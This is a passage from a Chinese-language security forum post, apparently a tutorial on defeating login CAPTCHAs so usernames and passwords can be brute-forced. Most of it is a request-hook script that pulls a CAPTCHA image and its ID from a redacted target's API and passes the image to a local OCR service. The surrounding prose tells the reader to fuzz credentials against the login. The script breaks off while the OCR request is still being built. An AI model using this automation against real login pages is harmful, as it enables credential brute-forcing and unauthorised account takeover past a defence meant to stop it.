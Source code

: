 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-053507f93367d81d39d1959de3ee8e134a116bba.png)  
这里需要对并发设置为1来保证识别的准确性，延时不设置应该也是可以的。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-3c8627d7923908d833d256e8c04f8aab1d337b78.png)  
后续就是python启动验证码识别服务，fuzz用户名密码发包即可。  
完整的魔术方法中使用的代码如下：

```php
beforeRequest = func(req) {
    img_packet = `GET /api/web/platform/getVerCode HTTP/1.1
Host:xxx.xxx.com
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://xxx.xxx.xxx/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: acw_tc=7499421017132659570408150ed140876e191a482f696345f7b42649af

`
    img_packet_rsp, _ = poc.HTTP(img_packet, poc.https(true))~
    /*示例 body为json 通过正则获取base64编码后的图片
result = re2.FindGroup(img_packet_rsp, `;base64,(?P<img_data>.*)"}}`)
b64_img = str.ParamsGetOr(result, "img_data", "nope")
*/
    result = re2.FindGroup(img_packet_rsp, `,"img":"(?P<img_data>.*)"}}`)
    b64_img = str.ParamsGetOr(result, "img_data", "nope")
    /*示例  通过正则获取获取验证码id 
    result = re2.FindGroup(
        rsp, 
        `"CheckCodeId":"(?P<img_id>.*)","CheckCodeSrc"`, #获取验证码id的正则,使用正则组img_id的关键字获取
    )
    img_id = str.ParamsGetOr(result, "img_id", "nope")
*/
    result = re2.FindGroup(img_packet_rsp, `"vi":"(?P<img_id>.*)","img"`)
    img_id = str.ParamsGetOr(result, "img_id", "nope")
    ocr_packet = `POST /base64 HTTP/1.1
Host: 127.0.0.1:17788
Connection: keep-alive
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://mitm/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded

```